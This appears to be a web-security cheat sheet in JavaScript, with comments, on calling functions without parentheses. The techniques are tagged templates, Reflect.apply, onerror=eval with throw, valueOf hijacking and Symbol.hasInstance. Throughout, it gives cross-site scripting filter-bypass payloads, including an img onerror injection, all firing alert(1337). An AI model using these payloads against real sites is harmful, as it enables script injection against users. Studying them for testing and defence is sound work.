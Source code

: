 ````javascript

// To pass several arguments you can use
function btt(){
console.log(arguments);
}
btt`${'arg1'}${'arg2'}${'arg3'}`

//It's possible to construct a function and call it
Function`x${'alert(1337)'}x```

// .replace can use regexes and call a function if something is found
"a,".replace`a${alert}` //Initial ["a"] is passed to str as "a," and thats why the initial string is "a,"
"a".replace.call`1${/./}${alert}`
// This happened in the previous example
// Change "this" value of call to "1,"
// match anything with regex /./
// call alert with "1"
"a".replace.call`1337${/..../}${alert}` //alert with 1337 instead

// Using Reflect.apply to call any function with any argumnets
Reflect.apply.call`${alert}${window}${[1337]}` //Pass the function to call (“alert”), then the “this” value to that function (“window”) which avoids the illegal invocation error and finally an array of arguments to pass to the function.
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`
// Using Reflect.set to call set any value to a variable
Reflect.set.call`${location}${'href'}${'javascript:alert\x281337\x29'}` // It requires a valid object in the first argument (“location”), a property in the second argument and a value to assign in the third.



// valueOf, toString
// These operations are called when the object is used as a primitive
// Because the objet is passed as "this" and alert() needs "window" to be the value of "this", "window" methods are used
valueOf=alert;window+''
toString=alert;window+''


// Error handler
window.onerror=eval;throw"=alert\x281\x29";
onerror=eval;throw"=alert\x281\x29";
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
{onerror=eval}throw"=alert(1)" //No ";"
onerror=alert //No ";" using new line
throw 1337
// Error handler + Special unicode separators
eval("onerror=\u2028alert\u2029throw 1337");
// Error handler + Comma separator
// The comma separator goes through the list and returns only the last element
var a = (1,2,3,4,5,6) // a = 6
throw onerror=alert,1337 // this is throw 1337, after setting the onerror event to alert
throw onerror=alert,1,1,1,1,1,1337
// optional exception variables inside a catch clause.
try{throw onerror=alert}catch{throw 1}


// Has instance symbol
'alert\x281\x29'instanceof{[Symbol['hasInstance']]:eval}
'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}
// The “has instance” symbol allows you to customise the behaviour of the instanceof operator, if you set this symbol it will pass the left operand to the function defined by the symbol.
````